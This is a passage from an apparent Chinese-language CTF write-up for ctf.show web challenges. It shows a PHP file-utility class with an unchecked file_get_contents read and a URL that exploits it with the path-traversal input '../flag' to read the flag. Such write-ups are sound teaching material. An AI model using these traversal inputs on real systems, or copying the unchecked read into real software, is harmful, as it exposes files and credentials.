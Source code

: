得到文件读取的原因，在 `../render/file_class` 里，是指定后缀名为 php 的文件读取

```php
<?php
class fileUtil{

	public static function read($filename){
		return file_get_contents($filename);
	}

	public static function write($filename,$content,$append =0){
		if($append){
			file_put_contents($filename, $content,FILE_APPEND);
		}else{
			file_put_contents($filename, $content);
		}
	}
}
```

<img src=".\图片\Snipaste_2023-08-11_15-07-01.png" alt="Snipaste_2023-08-11_15-07-01" style="zoom:67%;" />

尝试读取 flag

```http
view-source:http://3777c7d6-f37d-4259-8e72-15b665b15364.challenge.ctf.show/index.php?action=../flag
```

<img src=".\图片\Snipaste_2023-08-11_15-08-14.png" alt="Snipaste_2023-08-11_15-08-14" style="zoom:67%;" />

## web487
